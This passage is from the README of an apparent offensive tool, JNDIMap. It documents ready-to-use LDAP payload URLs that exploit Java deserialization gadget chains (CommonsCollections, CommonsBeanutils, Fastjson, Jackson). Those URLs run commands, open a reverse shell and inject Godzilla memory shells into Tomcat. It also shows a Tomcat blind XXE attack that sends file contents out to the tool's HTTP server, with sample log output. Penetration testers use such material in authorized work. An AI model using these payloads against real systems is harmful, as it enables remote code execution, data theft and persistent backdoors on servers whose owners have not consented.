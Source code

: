 `-p`: Derby Server 监听端口, 默认为 `4851`

`-g`: 指定 Gadget, 如 `/CommonsCollectionsK1/Command/open -a Calculator` (即下文 `/Deserialize/*` 系列路由)

`-f`: 指定自定义序列化数据文件

`-h`: 显示 Usage 信息

## Tomcat Blind XXE

利用 `org.apache.catalina.users.MemoryUserDatabaseFactory` 实现无回显 XXE

传入的 Path 必须为 Base64 URL 格式

```bash
# Tomcat XXE
ldap://127.0.0.1:1389/TomcatXXE/<base64-url-encoded-path>
```

因为 JDK 限制, 通过 XXE 仅能读取单行且不包含特殊字符的文件, 文件内容会以 `content` 参数的形式发送至内置的 HTTP 服务器

```bash
[LDAP] Received query: /TomcatXXE/L3RtcC90ZXN0LnR4dA==
[TomcatXXE] Path: /tmp/test.txt
[LDAP] Sending Reference object (serialized data)
[HTTP] Receive request: /O5GPr0d7.xml
[HTTP] Receive request: /TsBaggdL.dtd
[HTTP] Receive request: /V4J4ZH1P?content=helloworld
```

### LDAP Deserialization

通过 LDAP、LDAPS 协议触发 Java 反序列化, 不支持 RMI 协议

JNDIMap 内置以下利用链, 同时也支持反序列化自定义数据

- CommonsCollections K1-K4
- CommonsBeanutils183
- CommonsBeanutils194
- Fastjson1 (1.2.x)
- Fastjson2 (2.0.x)
- Jackson

```bash
# 自定义数据反序列化

# URL 传参加载
ldap://127.0.0.1:1389/Deserialize/FromUrl/<base64-url-encoded-serialize-data>
# 从运行 JNDIMap 的服务器上加载
ldap://127.0.0.1:1389/Deserialize/FromFile/payload.ser # 相对于当前路径
ldap://127.0.0.1:1389/Deserialize/FromFile/<base64-url-encoded-path-to-serialized-data>

# CommonsCollectionsK1 反序列化 (3.1 + TemplatesImpl), 支持命令执行, 反弹 Shell, 内存马注入
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/MemShell/Tomcat/Godzilla/Filter

# CommonsCollectionsK2 反序列化 (4.0 + TemplatesImpl), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 反序列化 (3.1 + Runtime.exec), 仅支持命令执行
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator

# CommonsCollectionsK4 反序列化 (4.0 + Runtime.exec), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils 反序列化
# 无需 commons-collections 依赖, 使用 TemplatesImpl, 支持命令执行, 反弹 Shell, 内存马注入
# 根据 BeanComparator serialVersionUID 不同, 分为两个版本: 1.8.3 和 1.9.4
```